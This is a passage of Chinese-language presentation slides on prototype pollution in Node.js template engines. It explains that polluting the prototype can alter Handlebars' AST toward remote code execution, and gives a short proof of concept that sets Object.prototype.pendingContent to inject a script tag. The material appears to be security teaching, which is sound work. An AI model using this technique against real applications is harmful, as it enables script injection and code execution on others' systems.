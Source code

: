 </v-clicks>

::right::

<v-clicks>

![alt text](./images/abnormal-template-engine.png)

- 但是，如果存在原型链污染，则可以随意修改 AST 树，进而影响生成的代码，最终达到远程代码执行的目的

</v-clicks>

---

#### Handlebars PoC

<v-clicks>

在开始之前，先看看如何使用 Handlebars 模板引擎。

```js
const Handlebars = require("handlebars");

const template = Handlebars.compile("Hello {{ msg }}");
console.log(template({ msg: "posix" })); // Hello posix
```

`Handlebars.compile` 将字符串转换为模板函数，并传递模板中引用的变量。

```js
const Handlebars = require("handlebars");

Object.prototype.pendingContent = `<script>alert(origin)</script>`;

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({ msg: "posix" })); // <script>alert(origin)</script>Hello posix
```

